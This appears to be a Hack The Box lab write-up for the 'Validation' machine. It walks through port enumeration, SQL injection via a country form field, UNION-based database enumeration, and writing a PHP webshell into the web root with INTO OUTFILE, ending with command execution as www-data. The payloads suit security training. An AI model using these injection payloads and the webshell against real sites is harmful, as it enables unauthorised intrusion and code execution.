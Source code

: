 # Validation - Linux, easy (10.10.11.116)

### Enumeration:
```
PORT     STATE SERVICE VERSION
22/tcp   open  ssh     OpenSSH 8.2p1 Ubuntu 4ubuntu0.3 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   3072 d8:f5:ef:d2:d3:f9:8d:ad:c6:cf:24:85:94:26:ef:7a (RSA)
|   256 46:3d:6b:cb:a8:19:eb:6a:d0:68:86:94:86:73:e1:72 (ECDSA)
|_  256 70:32:d7:e3:77:c1:4a:cf:47:2a:de:e5:08:7a:f8:7a (ED25519)
80/tcp   open  http    Apache httpd 2.4.48 ((Debian))
|_http-title: Site doesn't have a title (text/html; charset=UTF-8).
|_http-server-header: Apache/2.4.48 (Debian)
```

The website provides us a form in which we can specificy a username and a dropdown box to select the country.
After registering the user we are redirected to page **/account.php** in which the names of users in the country specified are listed.

Using Burp, we can inspect the requests.
We can notice that the country field (that is in a dropdown box, which means that we cannot write in it from the website our content), appears in plaintext so we can modify it.
Moreover, the page will send us a cookie called "user" when redirecting us to /account.php.
Note that the cookie will be always the same if we do not change the username!

By changing the country field in request in the folliwing way: `username=ciao&country=' OR 1=1 -- -`, we can notice that the website provides the names of all the users, even the ones from other countries.
This means that the website is *vulnerable to SQLI*!
We can guess that the SQL query on the page looks like `SELECT username from players where country = '[input]';`.

Note that if we do not append `-- -` in the country, we will receive the following error `Uncaught Error: Call to a member function fetch_assoc() on bool in /var/www/html/account.php:33`.

To test this vulnerability in a easier way we can open two Repeater tabs in Burp, one with the POST request where we can modify username and country, and one with the GET request to /account.php where we can inspect the result.

### SQLi UNION attack
When an application is vulnerable to SQL injection and the results of the query are returned within the application's responses, the UNION keyword can be used to retrieve data from other tables within the database. This results in an SQL injection UNION attack.
The UNION operator is used to combine the result-set of two or more SELECT statements:
1. Every SELECT statement within UNION must have the same number of columns
2. The columns must also have similar data types
3. The columns in every SELECT statement must also be in the same order

Trying `country=' Union Select 1 -- -` we do not see erros but the query returns value 1.

### Enumerating the DB
If we change 1 to user(), we can see the following name: `uhc@localhost`.
We can also enumerate the name of current database with function **database()**, and the name is `registration`.

With `username=123&country=' union select schema_name from information_schema.schemata -- -` we can obtain the names of all the DBs:
```
information_schema
performance_schema
mysql
registration
```

and the most interesting is `registration`, since the others are mysql and internals.

There is a single table in DB registration:
```
username=1232&country=' union select table_name from information_schema.tables where table_schema = 'registration' -- -
registration
```

It has four columns:
```
username=1232&country=' union select column_name from information_schema.columns where table_name = 'registration' -- -
  1. username
  2. userhash
  3. country
  4. regtime
```

Unfortunately, there's no password here!

### Getting a webshell
We can try to write a file by setting the following values: `username=csbbbbb&country=' union select "Hello I'm here" into outfile '/var/www/html/test.txt' -- -`.
Now, visiting 10.10.11.116/test.txt we should see the string!

At this point, we can try to write a simple php webshell: `username=asdadadadadad&country=' union select "<?php SYSTEM($_GET['cmd']); ?>" into outfile '/var/www/html/shell.php' -- -`.
And it works!
```
kali@kali:~/HackTheBox/retired/Linux/easy/Validation$ curl http://10.10.11.116/shell.php?cmd=id
uid=33(www-data) gid=33(www-data) groups=33(www-data)
```


